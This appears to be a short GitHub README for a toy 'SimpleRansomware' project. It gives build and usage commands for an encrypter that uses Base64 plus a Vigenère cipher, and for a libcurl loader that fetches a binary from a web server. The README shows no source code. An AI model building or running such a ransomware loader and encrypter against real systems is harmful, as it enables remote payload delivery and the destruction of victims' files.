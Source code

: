 # SimpleRansomware
Simple chiper ransomware with loader end encrypter. It use simple alghoritms: Base64 + Veginer
## Encrypter
### Build & Run
Compiling encrypter:
```
cd encrypter
g++ -static main.cpp -o encryptor -O0 -g
```
Example of usage:
```
./encrypter example.txt "My secret Key" 0
```
Flags:
1. filepath
2. key for encrypt/decrypt
3. 0/1 encrypt/decrypt

## Loader
### Build & Run
Compiling loader:
```
cd loader
g++ main.cpp -o loader -lcurl
```
Run loader:

_Note: You need to run web server for hosting compiled binary. For example use follow command `python3 -m http.server` in `encrypter/` folder_
```
./loader http://localhost:8080/decrypter
```
